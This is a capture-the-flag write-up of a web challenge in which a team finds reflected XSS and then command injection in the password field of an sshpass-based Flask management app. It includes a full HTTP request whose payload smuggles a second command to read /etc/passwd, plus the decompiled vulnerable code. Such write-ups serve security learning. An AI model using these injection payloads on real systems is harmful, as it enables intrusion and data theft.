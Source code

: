 # Remote Management System (Web)
At first, we provided real details in order to understand the application\'s logic.
    + Using `sshpass` utility, the server was connecting to an SSH server using the provided details
    + Upon login, the command `show config` was issued

We decided to test if the application would reflect back any output from the above command into the webpage. Thus, using `sudo cp /bin/cat /bin/show` we create a copy of the `cat` utility called `show` and using `echo "<script>aler(1)</script>" > config` we create the file that the server will request to read. Interestingly, the server reflected back the contents of the `config` file in the webpage and it was also vulnerable to XSS.

We tried several "payloads" in order to identify any other vulnerabilities like XXE, SSTI or characters that would break the applications logic. None of them worked.

Going back to the application, we tried to find a command injection vulnerability by manually trying to fuzz the available parameters using Burp. Good news, RCE was possible thus we started enumerating the server.

```
POST / HTTP/1.1
Host: spiderlabsctf.com:6060
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://spiderlabsctf.com:6060
Connection: close
Referer: http://spiderlabsctf.com:6060/
Upgrade-Insecure-Requests: 1

hostname=/&port=1&username=/&password=-w+less+-FX+/etc/passwd+%0a
```

After reading both `app.py` and `remoteapp.pyc` files (decompiled) we were unable to find the flag. We also used `grep FLAG -R /` in order to recursively check each file for the flag, without any luck.

app.py
```
import sys
from remoteapp import remoteapp
from flask import Flask, request, render_template, Response
app = Flask(__name__)

@app.route("/", methods=['GET', 'POST'])
def manage():
    if len(request.form) > 0:
        output = remoteapp(request.form)
        return render_template('home.html', output=output)
    else:
        return render_template('home.html')
@app.route('/css/<path:path>')
def send_css(path):
    return Response(open("css/%s" % path, "r").read(), mimetype='text/css')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=int(sys.argv[1]))
```

remoteapp.py (decompiled)
```
import subprocess, re, redis
from flask import Markup

def remoteapp(data):
    try:
        password = check_param(data['password'])
        username = check_param(data['username'])
        hostname = check_param(data['hostname'])
        port = int(data['port'])
        cmd = 'sshpass -p %s ssh -o StrictHostKeyChecking=no -p %s %s@%s show config' % (password, port, username, hostname)
        print cmd
        output = subprocess.Popen([cmd], shell=True, stdout=subprocess.PIPE, stderr=subprocess.STDOUT)
        stdout, stderr = output.communicate()
        return Markup("<div class='alert alert-warning'>%s</div>" % stdout)
    except:
        return Markup("<div class='alert alert-danger'>Could not fetch remote data</div>")


def check_param(data):
    if not re.match('^[a-zA-Z0-9 \\.:/\\-]*$', data):
        print '%s failed regex check' % data
        save_query(data)
        raise Exception('regex violation')
    return data


def save_query(data):
    instance = redis.StrictRedis(host='127.0.0.1', db=0)
    instance.set(data, data)
```

Finally, we saw that a redis server was running. Issuing a simple `redis-cli get FLAG` revealed the flag.

-ishtar
-CYberMouflons
